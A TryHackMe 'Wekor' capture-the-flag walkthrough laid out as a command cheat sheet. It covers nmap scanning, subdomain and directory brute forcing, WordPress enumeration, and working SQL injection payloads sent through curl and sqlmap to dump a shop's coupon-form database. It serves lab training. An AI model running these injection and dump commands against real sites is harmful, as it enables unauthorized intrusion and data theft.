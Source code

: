 ## TryHackMe Walkthrough - Wekor
Added wekor.thm to /etc/hosts

URL=wekor.thm
### How to scan ports with nmap
```bash
IP_ADDR=
nmap -sV -sC -oA initial $IP_ADDR
```
### How to enumerate web server domains
```bash
DNSLISTS=/usr/share/amass/wordlists/subdomains-top1mil-5000.txt
wfuzz -c -w $DNSLISTS -t30 --hw 3 -H "Host:FUZZ.${URL}" "http://${URL}"
```
### How to enumerate web server path/folder/directory
```bash
WORDLISTS=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -e -u http://site.${URL} -xphp,txt -t30 -w ${WORDLISTS}
```
### How to enumerate with wpscan
```bash
wpscan.api=$(cat ~/Downloads/wpscan.api)
wpscan --url http://site.${URL}/wordpress/ -e ap,u --api-token ${wpscan.api}
```
### How to bruteforce sql with sqlmap
Test if vulnerable to sqli
```bash
' or 1 = 1 -- -
```
Pull 
```bash
' UNION SELECT 1, 2, GROUP_CONCAT(table_name) FROM information_schema.tables -- -
```
```bash
curl -X POST http://${URL}/it-next/it_cart.php \
  -d "coupon_code=' OR 1=1 -- -" \
  -d "apply_coupon=Apply Coupon" | grep -i code

curl -X POST http://${URL}/it-next/it_cart.php \
  -d "coupon_code=' UNION SELECT 1, 2, GROUP_CONCAT(table_name) FROM information_schema.tables -- -" \ -d "apply_coupon=Apply Coupon" | grep -i code
```
SQLMAP
```bash
sqlmap -u http://${URL}/it-next/it_cart.php --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" --dump
```
## Resource
https://erichogue.ca/2021/06/Wekor

https://github.com/kartikeyj96/Tryhackme-Writeups/blob/main/Wekor%20Writeup
```
